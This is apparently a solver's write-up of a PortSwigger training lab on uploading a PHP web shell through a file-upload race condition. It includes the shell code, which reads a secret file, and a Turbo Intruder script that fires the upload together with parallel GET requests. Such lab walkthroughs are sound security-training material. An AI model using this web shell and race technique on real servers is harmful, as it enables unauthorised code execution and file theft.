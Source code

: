 # Lab : Web shell upload via race condition

[**Click here to enter the Lab**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

---

## Lab Description

This lab contains a vulnerable image upload function. Although it performs robust validation on uploaded files, it is possible to bypass this validation by exploiting a **race condition** in the way it processes files.

To solve the lab, you need to:

* Upload a **PHP web shell** to the server.
* Exploit the **time window** during validation to execute the shell.
* Use it to **read the contents** of the file located at `/home/carlos/secret`.
* Submit the secret using the button provided in the lab banner.

You can log in to your own account using the following credentials:

* **Username:** `wiener`
* **Password:** `peter`

---

## Solution


- At first I will login with credentials ( `wiener` , `peter` ) .
- Go to **Image upload** functionality in **My Account** page.
  
  ![image](https://github.com/user-attachments/assets/d4334f56-b363-438e-a692-21cbda6a13e0)

- At previous labs we write a simple web shell in a file and named it `SimpleShell.php` that's content is :
  
```php
<?php
echo "<pre>";
echo file_get_contents("/home/carlos/secret");
echo "</pre>";
?>
```

it's role is to print content of `/home/carlos/secret` 

- Now upload this file using **Image upload** functionality.Observe we got an error :
  
  ![p](https://github.com/user-attachments/assets/2210b549-35b3-45b6-ba48-5ac905fb7453)

* The server performs strong validation (likely MIME & content inspection).
* The request is rejected – but the file gets temporarily saved in the public folder before being scanned and deleted.

This is the vulnerability : The race condition exists in the time window between file being uploaded and file being scanned + deleted.

> While testing in Burp Suite Repeater, the upload request took a few seconds longer than expected to receive a response.
This delay clearly indicates that the server stores the uploaded file first, then performs backend processing (e.g., virus scan or validation) before rejecting the file.
This timing gap is exactly what makes the race condition exploit possible.

---

### Perform Race condition 

> A **race condition** happens when two or more operations run at the same time, and the outcome depends on the timing between them. it can be exploited when a file or action is **temporarily accessible** before security checks are fully completed.


**At first** : Install & Use Turbo Intruder
Install Turbo Intruder from the Burp BApp Store.

Go to the POST /my-account/avatar request that attempted uploading SimpleShell.php.

Right-click → Extensions → Turbo Intruder → Send to turbo intruder

![t](https://github.com/user-attachments/assets/96e184b0-648a-4a1f-981d-87cf93e49888)

![AM](https://github.com/user-attachments/assets/ae57f24b-8d1c-4a9b-b050-ac555aaf742f)


---

### Turbo Intruder Exploit Script 

I will use the script to send a POST upload, immediately followed by multiple GET requests:


* Post request :
  
![tAM](https://github.com/user-attachments/assets/eafc05fe-9e99-4ea0-bd65-63485ba52efe)

* Get request : 

![pi](https://github.com/user-attachments/assets/ff995ef0-6104-4d67-8bfb-f3a33b232280)

- The script will be like this :

```python
  def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10)

    request1 = '''Post Request that contain web shell'''

    request2 = '''GET Request'''

    # Queue the POST request and multiple GET requests with gating for race condition
    engine.queue(request1, gate='race1')
    for _ in range(5):
        engine.queue(request2, gate='race1')

    # Release the gate to send all queued requests simultaneously
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

### That will be like this : 

![image](https://github.com/user-attachments/assets/55594cb5-5a2d-4500-809b-2f3b9fb47938)

Run the Attack
Click Attack in Turbo Intruder.

Look at the response results.

> Some of the GET requests return a 200 OK with the secret inside – this means you hit the small time window before validation deleted the file.

![ppp](https://github.com/user-attachments/assets/c1d45b43-74b6-4c20-b579-ced9ec28315c)

![parite](https://github.com/user-attachments/assets/b6d669ec-802f-4a67-b3c5-37f6db8b6300)

---

- ## Copy the secret and submit it in the browser to solve the lab successfully …

![uu](https://github.com/user-attachments/assets/8b322fa0-6dae-4d82-bb86-839978d5e3ca)


![oo](https://github.com/user-attachments/assets/0631da23-3da9-43c0-a26c-bc3d1db5642d)
